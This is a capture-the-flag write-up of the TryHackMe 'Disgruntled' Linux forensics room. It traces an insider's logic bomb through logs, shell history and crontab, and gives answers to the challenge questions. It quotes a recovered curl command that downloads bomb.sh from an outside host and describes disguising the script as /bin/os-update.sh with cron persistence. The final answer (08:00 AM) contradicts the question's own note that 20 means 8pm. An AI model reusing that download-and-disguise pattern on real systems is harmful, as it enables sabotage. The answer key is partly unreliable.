









# Disgruntled [here](https://tryhackme.com/room/disgruntled)

## Scenario
An IT department employee at CyberT, a client company, was arrested for running a phishing operation. CyberT has tasked us with investigating the employee's last-used machine to determine if any malicious actions were performed on their assets. The investigation focuses on privileged commands, user account activity, file operations, and persistence mechanisms to uncover a potential "logic bomb" designed to harm the company's systems.

## Investigation Approach
1. **Initial Access and User Identification**:
   - Logged in as the `root` user on the target machine.
   - Checked `/etc/passwd` to identify user accounts, expecting the disgruntled IT employee to use a non-root account (`cybert` or `itadmin`) to avoid suspicion. Found three users: `ubuntu`, `cybert`, and `itadmin`. Focused on `cybert` as the likely primary account and `itadmin` for suspicious activity.
   - **Screenshot**: 

2. **Privileged Commands**:
   - Examined `/var/log/auth.log*` for `sudo` commands executed by `cybert` to confirm the installation of the authorized service (`dokuwiki`). Also checked `cybert`’s `~/.bash_history` for related commands to identify the command and working directory.

3. **User and Privilege Escalation**:
   - Grep’d `useradd` or `adduser` in `cybert`’s `~/.bash_history` to find new user accounts created post-installation.
   - Searched `auth.log*` for `visudo` to detect `sudoers` file updates, focusing on timestamps after the `dokuwiki` installation to confirm privilege escalation.
   - Investigated `itadmin`’s `~/.bash_history` for `vi` commands to identify script creation or editing.

4. **File Analysis**:
   - Grep’d `sh` in `itadmin`’s `~/.bash_history` to find the creation command for `bomb.sh`, which no longer exists.
   - Checked `itadmin`’s `~/.viminfo` to trace file renaming or movement, identifying the new location of `bomb.sh`.
   - Used `ls -la --full-time` to retrieve the modification time of the renamed file.
   - Analyzed the script’s contents to identify files created upon execution.

5. **Persistence Mechanisms**:
   - Inspected `/etc/crontab` to find scheduled tasks, confirming the execution time of the malicious script.

## Challenge Questions and Findings

### 1. Privileged Command for Package Installation
**Question**: The user installed a package on the machine using elevated privileges. According to the logs, what is the full COMMAND?

**Answer**: `/usr/bin/apt install dokuwiki`

**Screenshot**: 

### 2. Present Working Directory (PWD) for Command
**Question**: What was the present working directory (PWD) when the previous command was run?

**Answer**: `/home/cybert`

**Screenshot**: 

### 3. User Created After Package Installation
**Question**: Which user was created after the package from the previous task was installed?

**Answer**: `it-admin`

**Screenshot**: 

### 4. Sudoers File Update Time
**Question**: A user was then later given sudo privileges. When was the sudoers file updated? (Format: Month Day HH:MM:SS)

**Answer**: `Dec 28 06:27:34`

**Screenshot**: 

### 5. Script File Opened in vi
**Question**: A script file was opened using the "vi" text editor. What is the name of this file?

**Answer**: `bomb.sh`

**Screenshot**: 

### 6. Command That Created bomb.sh
**Question**: What is the command used that created the file `bomb.sh`?

**Answer**: `curl 10.10.158.38:8080/bomb.sh --output bomb.sh`

**Screenshot**: 

### 7. Current Full Path of Renamed File
**Question**: The file was renamed and moved to a different directory. What is the full path of this file now?

**Answer**: `/bin/os-update.sh`

**Screenshot**: 

### 8. Last Modified Time of Renamed File
**Question**: When was the file from the previous question last modified? (Format: Month Day HH:MM)

**Answer**: `Dec 28 06:29`

**Screenshot**: 

### 9. File Created by Script Execution
**Question**: What is the name of the file that will get created when the file from the first question executes?

**Answer**: `goodbye.txt`

**Screenshot**: 

### 10. Trigger Time of Malicious File
**Question**: At what time will the malicious file trigger? (Format: HH:MM AM/PM) (20 will be 8pm lol, sorry im severly sleep deprived)

**Answer**: `08:00 AM`

**Screenshot**: 

